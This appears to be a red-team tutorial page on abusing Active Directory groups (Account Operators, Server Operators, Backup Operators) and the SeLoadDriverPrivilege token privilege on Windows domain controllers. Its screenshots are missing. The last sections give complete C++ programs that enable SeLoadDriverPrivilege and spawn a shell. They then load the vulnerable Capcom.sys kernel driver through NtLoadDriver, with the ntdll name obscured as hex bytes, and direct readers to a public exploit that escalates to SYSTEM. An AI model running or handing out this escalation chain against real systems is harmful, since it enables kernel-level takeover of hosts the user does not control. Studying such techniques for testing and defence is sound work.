





# Privileged Accounts and Token Privileges

Administrators, Domain Admins, Enterprise Admins are well known AD groups that pentesters and red teamers will aim for, but there are other account memberships and access token privileges that can be useful during engagements.

## Account Operators

* Allows creating non administrator accounts and groups on the domain
* Allows logging in to the DC locally

Note the spotless' user membership:


However, we can still add new users:


As well as login to DC01 locally:



## Server Operators

This membership allows users to configure Domain Controllers with the following privileges:

* Allow log on locally
* Back up files and directories
* Change the system time
* Change the time zone
* Force shutdown from a remote system
* Restore files and directories
* Shut down the system

Note how we cannot access files on the DC with current membership:



However, if the user belongs to `Server Operators`:


The story changes:


## Backup Operators

As with `Server Operators` membership, we can access the `DC01` file system if we belong to `Backup Operators`:



## SeLoadDriverPrivilege

A very dangerous privilege to assign to any user - it allows the user to load kernel drivers and execute code with kernel privilges aka `NT\System`. See how `offense\spotless` user has this privilege:



`Whoami /priv` shows the privilege is disabled by default:


However, the below code allows enabling that privilege fairly easily:



```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>

int main()
{
	TOKEN_PRIVILEGES tp;
	LUID luid;
	bool bEnablePrivilege(true);
	HANDLE hToken(NULL);
	OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system
		L"SeLoadDriverPrivilege",   // privilege to lookup 
		&luid))        // receives LUID of privilege
	{
		printf("LookupPrivilegeValue error: %un", GetLastError());
		return FALSE;
	}
	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	
	if (bEnablePrivilege) {
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	}
	
	// Enable the privilege or disable all privileges.
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		printf("AdjustTokenPrivileges error: %x", GetLastError());
		return FALSE;
	}

	system("cmd");
    return 0;
}
```



We compile and launch the application and the privilege is now enabled:



### Capcom.sys Driver Exploit

To further prove the `SeLoadDriverPrivilege` is dangerous, let's see how we can easily exploit it.

Let's build on the previous code and leverage the Win32 API call ntdll.NtLoadDriver\(\) to load our malicious kernel driver `Capcom.sys`. Note that lines 55 and 56 of the `privileges.cpp` are:

```cpp
	PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
	PCWSTR pPathSourceReg = L"\\registry\\machine\\System\\CurrentControlSet\\Services\\
```

The first one declares a string variable indicating where the vulnerable Capcom.sys driver is located on the victim system and the second one is a string indicating a service name that will be used \(could be any\) to execute the exploit:



```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <ntsecapi.h>
#include <stdlib.h>
#include <locale.h>
#include <iostream>
#include "stdafx.h"

NTSTATUS(NTAPI *NtLoadDriver)(IN PUNICODE_STRING DriverServiceName);
VOID(NTAPI *RtlInitUnicodeString)(PUNICODE_STRING DestinationString, PCWSTR SourceString);
NTSTATUS(NTAPI *NtUnloadDriver)(IN PUNICODE_STRING DriverServiceName);

int main()
{
	TOKEN_PRIVILEGES tp;
	LUID luid;
	bool bEnablePrivilege(true);
	HANDLE hToken(NULL);
	OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system
		L"SeLoadDriverPrivilege",   // privilege to lookup 
		&luid))        // receives LUID of privilege
	{
		printf("LookupPrivilegeValue error: %un", GetLastError());
		return FALSE;
	}
	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	
	if (bEnablePrivilege) {
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	}
	
	// Enable the privilege or disable all privileges.
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		printf("AdjustTokenPrivileges error: %x", GetLastError());
		return FALSE;
	}

	//system("cmd");
	// below code for loading drivers is taken from https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/RDI/dll/NtLoadDriver.h
	std::cout << "[+] Set Registry Keys" << std::endl;
	NTSTATUS st1;
	UNICODE_STRING pPath;
	UNICODE_STRING pPathReg;
	PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
	PCWSTR pPathSourceReg = L"\\registry\\machine\\System\\CurrentControlSet\\Services\\SomeService";
	const char NTDLL[] = { 0x6e, 0x74, 0x64, 0x6c, 0x6c, 0x2e, 0x64, 0x6c, 0x6c, 0x00 };
	HMODULE hObsolete = GetModuleHandleA(NTDLL);
	*(FARPROC *)&RtlInitUnicodeString = GetProcAddress(hObsolete, "RtlInitUnicodeString");
	*(FARPROC *)&NtLoadDriver = GetProcAddress(hObsolete, "NtLoadDriver");
	*(FARPROC *)&NtUnloadDriver = GetProcAddress(hObsolete, "NtUnloadDriver");

	RtlInitUnicodeString(&pPath, pPathSource);
	RtlInitUnicodeString(&pPathReg, pPathSourceReg);
	st1 = NtLoadDriver(&pPathReg);
	std::cout << "[+] value of st1: " << st1 << "\n";
	if (st1 == ERROR_SUCCESS) {
		std::cout << "[+] Driver Loaded as Kernel..\n";
		std::cout << "[+] Press [ENTER] to unload driver\n";
	}

	getchar();
	st1 = NtUnloadDriver(&pPathReg);
	if (st1 == ERROR_SUCCESS) {
		std::cout << "[+] Driver unloaded from Kernel..\n";
		std::cout << "[+] Press [ENTER] to exit\n";
		getchar();
	}

    return 0;
}
```



Once the above code is compiled and executed, we can see that `Capcom.sys` driver gets loaded onto the victim system:




We can now download and compile the Capcom exploit from [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom) and execute it on the system to elevate our privileges to `NT Authority\System`:


## References









{% embed url="https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/EXE/NtLoadDriver-C%2B%2B/ntloaddriver.cpp\#L13" %}







{% embed url="https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FNtLoadDriver.html" %}

